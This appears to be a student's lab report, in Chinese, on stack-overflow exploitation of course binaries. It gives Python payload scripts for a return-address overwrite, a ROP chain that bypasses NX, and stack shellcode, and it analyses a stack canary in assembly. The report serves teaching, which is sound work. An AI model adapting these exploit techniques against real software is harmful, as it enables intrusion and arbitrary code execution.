




# 栈溢出攻击实验

## 题目解决思路

### Problem 1

- **分析**：

  通过 `objdump` 分析 `problem1` 的汇编代码，发现 `func` 函数中存在栈溢出漏洞。该函数调用 `strcpy` 将输入复制到栈上的缓冲区，且未进行长度检查。

  通过分析汇编指令 `lea -0x8(%rbp),%rax` 可知，缓冲区起始地址位于 `rbp - 8`。为了覆盖返回地址（Return Address），需要填充 **8 字节的缓冲区** 加上 **8 字节的 Old RBP**，共计 **16 字节** 的 Padding。

  目标函数为 `func1`（地址 `0x401216`），该函数会输出 "Yes!I like ICS!"。因此攻击策略是构造 payload 覆盖返回地址跳转至 `func1`。

- **解决方案**：使用 Python 脚本生成二进制 Payload。

  ```python
  import struct

  # Problem 1 攻击脚本

  # 1. 构造 Padding
  # 缓冲区从 rbp-8 开始。
  # 我们需要填充 8字节(buffer) + 8字节(saved rbp) = 16字节
  padding_len = 16
  padding = b'A' * padding_len

  # 2. 构造目标地址
  # func1 的地址是 0x401216
  # <Q 代表 Little Endian (小端序), Unsigned Long Long (64位)
  target_addr = struct.pack('<Q', 0x401216)

  # 3. 组合 Payload
  payload = padding + target_addr

  # 4. 写入文件
  # 题目要求 problem1 接收一个文件名参数
  filename = "ans1.txt"
  with open(filename, "wb") as f:
      f.write(payload)

  print(f"[+] Payload 已写入 {filename}")
  print(f"[+] Padding 长度: {padding_len}")
  print(f"[+] 跳转目标: 0x401216 (func1)")
  print("-" * 30)
  print(f"请在终端运行: ./problem1 {filename}")

  ```

- **结果**：

  

### Problem 2

- **分析**：

  题目开启了 **NX（No-Execute）** 保护，栈不可执行，因此无法使用 Shellcode，需要使用 **ROP（Return Oriented Programming）** 技术。

  目标函数 `func2` 在执行时会检查第一个参数（`rdi` 寄存器）是否等于 `0x3f8`。

  在程序中找到了一个 ROP Gadget：`pop rdi; ret`（地址 `0x4012c7`）。

  攻击策略是：**覆盖返回地址 → 跳转到 Gadget → 栈上放置参数 `0x3f8` → 跳转到 `func2`**，从而满足参数检查并通过。

- **解决方案**：使用 Python 构造 ROP 链 Payload。

  ```python
  import struct

  # Problem 2 攻击脚本 (ROP)

  # 1. 基础信息
  padding_len = 16
  padding = b'A' * padding_len

  # 2. 构造 ROP 链
  # 这里的 <Q 表示 64位小端序打包

  # [第一步] Gadget: pop rdi; ret
  # 地址来源: 4012c7: 5f pop %rdi
  pop_rdi_addr = struct.pack('<Q', 0x4012c7)

  # [第二步] 参数值
  # func2 要求参数为 0x3f8
  arg1 = struct.pack('<Q', 0x3f8)

  # [第三步] 目标函数 func2
  # 地址来源: 401216 <func2>
  func2_addr = struct.pack('<Q', 0x401216)

  # 3. 组合 Payload
  # 栈布局: [Padding] -> [pop_rdi] -> [0x3f8] -> [func2]
  payload = padding + pop_rdi_addr + arg1 + func2_addr

  # 4. 写入文件
  filename = "ans2.txt"
  with open(filename, "wb") as f:
      f.write(payload)

  print(f"[+] Payload 已写入 {filename}")
  print(f"[+] ROP Chain: pop_rdi -> 0x3f8 -> func2")
  print("-" * 30)
  print(f"请在终端运行: ./problem2 {filename}")

  ```

- **结果**：成功利用 ROP 链绕过 NX 保护并完成传参。

  

### Problem 3

- **分析**：

  本题未开启 NX 保护，允许栈上代码执行。目标是调用 `func1` 并使参数 `rdi` 为 `114`。

  通过分析发现辅助函数 `jmp_xs`（地址 `0x401334`），该函数会跳转到 `saved_rsp + 16` 的位置。经计算，该位置正好指向输入缓冲区的起始处。

  攻击策略为：在缓冲区中注入 **Shellcode**（汇编逻辑为：将 `114` 放入 `rdi` 并调用 `func1`），然后将函数返回地址覆盖为 `jmp_xs` 的地址，利用它跳回栈上执行我们的代码。

- **解决方案**：使用 Python 编写 Shellcode 并生成 Payload。

  ```python
  import struct

  # Problem 3 攻击脚本 (Shellcode)

  # 1. 构造 Shellcode
  # 汇编指令:
  # mov rdi, 0x72       (参数 114)
  # mov rax, 0x401216   (目标函数 func1)
  # call rax            (执行)

  # 对应的机器码 (Hex):
  shellcode = b"\x48\xc7\xc7\x72\x00\x00\x00"  # mov rdi, 0x72
  shellcode += b"\x48\xc7\xc0\x16\x12\x40\x00" # mov rax, 0x401216
  shellcode += b"\xff\xd0"                     # call rax

  # 2. 计算 Padding
  # 缓冲区总大小是 32 字节 (0x20)
  # 我们需要用 NOP (\x90) 或者垃圾数据填满剩余空间
  buffer_size = 32
  pad_len = buffer_size - len(shellcode)
  padding = b'\x90' * pad_len # 使用 NOP 填充比较优雅

  # 3. 构造栈帧覆盖
  # [Shellcode + Pad] (32 bytes)
  # [Old RBP] (8 bytes)
  # [Ret Addr -> jmp_xs] (8 bytes)

  fake_rbp = b'B' * 8
  jmp_xs_addr = struct.pack('<Q', 0x401334) # 0x401334 是 jmp_xs 的地址

  payload = shellcode + padding + fake_rbp + jmp_xs_addr

  # 4. 写入文件
  filename = "ans3.txt"
  with open(filename, "wb") as f:
      f.write(payload)

  print(f"[+] Payload 已写入 {filename}")
  print(f"[+] Shellcode length: {len(shellcode)} bytes")
  print(f"[+] 跳转路径: func -> jmp_xs (0x401334) -> Stack Buffer")
  print("-" * 30)
  print(f"请在终端运行: ./problem3 {filename}")

  ```

- **结果**：Shellcode 成功执行。

  

### Problem 4

- **分析**：

  Problem 4 开启了 **Canary** 保护机制，用于防止栈溢出。通过 `objdump` 查看 `func` 函数的汇编代码，可以看到 Canary 的设置与检查机制：

  1. **Canary 设置（Set up）**：

     在函数序言部分，程序从 `%fs:0x28` 读取一个随机值，并将其放入栈帧底部（`rbp-8`）。

     ```asm
     136c: 64 48 8b 04 25 28 00 00 00    mov    %fs:0x28,%rax
     1375: 48 89 45 f8                   mov    %rax,-0x8(%rbp)
     ```

  2. **Canary 检查（Check）**：

     在函数返回前，程序从栈中取出该值，与 `%fs:0x28` 中的原值进行比较。如果不一致（说明发生了溢出覆盖），则调用 `__stack_chk_fail` 终止程序。

     ```asm
     140a: 48 8b 45 f8                   mov    -0x8(%rbp),%rax
     140e: 64 48 2b 04 25 28 00 00 00    sub    %fs:0x28,%rax
     1417: 74 05                         je     141e <func+0xc1>
     1419: e8 b2 fc ff ff                call   10d0 <__stack_chk_fail@plt>
     ```

- **解决方案**：本题主要考察对保护机制的理解与分析，无需编写攻击代码。通过输入正确的凯撒密码解密字符串，程序正常走完流程并返回。

- **结果**：成功分析出 Canary 保护在汇编层面的实现方式。

  

## 思考与总结

通过本次实验，我深入学习了栈溢出攻击的原理与防御技术：

1. **栈帧结构**：理解了函数调用时栈的布局，特别是 Buffer、Old RBP 和 Return Address 的相对位置，这是计算 Payload 偏移量的基础。
2. **攻击技术**：掌握了从基础的覆盖返回地址，到利用 ROP 链绕过 NX 保护，再到利用 Shellcode 注入执行任意代码的进阶技术。
3. **防御机制**：通过 Problem 4 深入理解了 Canary 机制是如何通过插入随机值来检测栈破坏的。这一机制大大增加了利用栈溢出的难度，因为攻击者通常需要先泄露 Canary 值才能成功劫持控制流。
4. **工具使用**：熟练掌握了 `objdump` 进行反汇编分析以及 `gdb` 进行动态调试的技巧。

## 参考资料

1. *Computer Systems: A Programmer's Perspective (CSAPP), 3rd Edition.*
2. *CTF Wiki - Stack Overflow:* https://ctf-wiki.org/pwn/linux/user-mode/stackoverflow/x86/stack-intro/
3. *GDB Documentation.*
